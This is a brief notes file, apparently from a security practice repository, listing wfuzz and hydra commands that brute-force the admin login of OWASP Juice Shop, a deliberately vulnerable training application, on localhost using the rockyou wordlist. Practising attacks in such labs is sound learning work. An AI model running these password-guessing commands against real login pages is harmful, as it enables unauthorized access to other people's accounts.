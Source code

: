 # WFUZZ

Basic command: ``wfuzz -u http://localhost:3000/rest/user/login -d '{"email":"admin@juice-sh.op","password":"FUZZ"}' -H "Content-Type: application/json" -w /usr/share/wordlists/rockyou.txt``


# HYDRA

With respect to Get requests on OWASP Juice Shop, use the commands
``hydra -l admin@juice-sh.op -p admin123 localhost -s 3000 http-get-form "/rest/user/login:username=^USER^&password=^PASS^:Login failed"``

Or

``hydra -l admin@juice-sh.op -p admin123 http-get://localhost:3000/ ``


